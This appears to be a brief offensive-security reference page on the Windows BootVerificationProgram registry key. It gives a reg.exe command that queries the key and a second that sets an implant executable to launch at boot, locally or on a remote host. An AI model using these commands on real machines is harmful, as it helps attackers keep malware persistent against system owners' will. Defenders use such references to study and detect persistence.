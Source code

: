 # Boot Verification Program

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\BootVerificationProgram
```

```
C:\> reg.exe add [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\BootVerificationProgram /t REG_SZ /v ImagePath /d "C:\path\to\implant.exe" /f
```

---
## References

- [Persistence Info: Boot Verification Program](https://persistence-info.github.io/Data/bootverificationprogram.html)